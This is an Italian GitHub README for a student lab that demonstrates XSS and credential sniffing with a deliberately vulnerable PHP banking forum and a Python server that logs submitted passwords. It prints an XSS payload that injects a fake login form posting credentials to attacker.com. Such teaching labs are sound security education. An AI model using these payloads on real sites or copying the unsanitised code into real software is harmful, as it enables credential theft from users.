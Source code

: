 # Progetto di Sicurezza Informatica: Vulnerabilità XSS e Sniffing

[![Security](https://img.shields.io/badge/domain-Cybersecurity-red)]()
[![Web Security](https://img.shields.io/badge/focus-Web%20Security-orange)]()
[![Penetration Testing](https://img.shields.io/badge/approach-Penetration%20Testing-yellow)]()
[![OWASP](https://img.shields.io/badge/standard-OWASP%20Top%2010-blue)](https://owasp.org/www-project-top-ten/)
[![PHP](https://img.shields.io/badge/PHP-8.0+-777BB4?logo=php)]()
[![Python](https://img.shields.io/badge/Python-3.8+-3776AB?logo=python)]()
[![MySQL](https://img.shields.io/badge/MySQL-8.0-4479A1?logo=mysql)]()
[![Docker](https://img.shields.io/badge/Docker-20.10+-2496ED?logo=docker)]()

## Descrizione del Progetto

Questo progetto dimostra due vulnerabilità comuni nello sviluppo web:
1. **Cross-Site Scripting (XSS)**: Un attacco che permette l'esecuzione di codice JavaScript malevolo nel contesto di un'applicazione web
2. **Sniffing di credenziali**: Un attacco che intercetta e registra dati sensibili inviati tramite form

Il progetto simula un forum bancario vulnerabile a XSS, con un server aggiuntivo che cattura le credenziali inviate tramite un form compromesso.

## Componenti

1. **Servizio Web (Apache/PHP)**
   - Forum bancario vulnerabile a XSS
   - Connessione a database MySQL
   - Nessuna sanificazione degli input/output

2. **Database MySQL**
   - Contiene una tabella `comments` per memorizzare i post del forum

3. **Server di Sniffing (Python)**
   - In ascolto sulla porta 5000
   - Cattura e registra le credenziali inviate via POST
  
## Autori
- Carlo Da Roma
- [Piolo Llanos](https://github.com/pioloLlanos)

## Vulnerabilità Implementate

### 1. Cross-Site Scripting (XSS)
- **Posizione**: Input del commento e visualizzazione nel forum
- **Esempio di payload**:
  ```html
  <script>alert('XSS Attack!')</script>
  ```
  ```html
  <script>
    document.write('<form action="http://attacker.com/steal" method="post">' +
                   '<input type="text" name="username" placeholder="Username">' +
                   '<input type="password" name="password" placeholder="Password">' +
                   '<input type="submit" value="Submit"></form>');
  </script>
  ```

### 2. Sniffing di Credenziali
- Il server Python (`app.py`) registra tutte le coppie username/password inviate via POST
- I dati vengono salvati in `sniffed.txt`
- Per non far riuscire il pop up ad utenti che hanno già eseguito il login abbiamo deciso di salvare delle variabili interne al browser.

## Configurazione e Avvio

1. **Prerequisiti**:
   - Docker e Docker Compose installati

2. **Avvio dei servizi**:
   ```bash
   docker-compose up --build
   docker-compose ps
   ```

3. **Accesso all'applicazione**:
   - Forum bancario: http://localhost
   - Server di sniffing: http://localhost:5000 (solo per invio dati)

4. **Ripristino**:
   ```bash
   sudo docker-compose down -v
   ```
---

<sub><i>last update 06/06/2025</i></sub>
